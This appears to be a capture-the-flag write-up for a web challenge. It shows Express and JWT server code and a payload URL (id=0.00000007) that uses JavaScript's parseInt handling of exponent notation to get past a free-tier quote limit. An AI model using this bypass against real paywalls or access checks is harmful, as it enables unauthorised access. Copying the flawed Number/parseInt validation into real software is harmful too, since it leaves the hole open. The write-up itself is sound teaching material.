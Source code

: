 
---

# Solution
First we need to go to register endpoint to get cookie.
```javascript
app.get("/register", (req, res) => {
  const token = jwt.sign(
    {
      subscribed: false,
    },
    SECRET_KEY,
    { expiresIn: "1h" }
  );

  res.cookie(COOKIE_NAME, token, {
    httpOnly: true,
    secure: true,
    maxAge: 3600000,
  });
  res.status(200);
  res.send({ message: "Signed in!" });
});
```

The server take the id in the request parameter then response with a quote according to the id. There is a condition that if the id exceed the free limit(5), we wont get anything. But the id is parse to Number method and parseInt method.
```javascript
  if (id) {
    const i = Number(id);

    if (!decoded.subscribed && i >= FREE_TIER_QUOTE_LIMIT) {
      res.status(500);
      res.send({ error: "Not a paying subscriber" });
      return;
    }

    if (i < 0 || i >= quotes.length) {
      res.status(500);
      res.send({ error: "Invalid quote ID" });
      return;
    }

    const quote = quotes[parseInt(i)];

    res.status(200);
    res.send({ quote, id: i });
    return;
  }
```
# Payload
```
http://yourlink/quote?id=0.00000007
```
We can bypass the filter by exploiting the parseInt function.
[Explanation](https://stackoverflow.com/questions/69613606/why-does-javascripts-parseint0-0000005-print-5)

---

